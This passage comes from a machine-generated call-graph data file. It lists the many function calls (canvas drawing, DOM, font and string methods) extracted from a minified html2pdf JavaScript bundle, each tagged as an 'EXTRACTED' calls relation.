"static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveToReversed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveToReversed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "curveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isBlack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundClip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createHTMLDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHideClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundRepeating"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "backgroundRepeatShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "backgroundRepeatShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "backgroundRepeatShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "taints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setVariable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setVariable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setVariable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setVariable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setVariable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getParentStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testRangeBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testCORS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "selectNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasFabric"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadSVGFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decode64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeContentType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "serializeToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasFabric"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseSVGDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "offsetBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "registerTTF"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forGlyph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "widthOfGlyph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 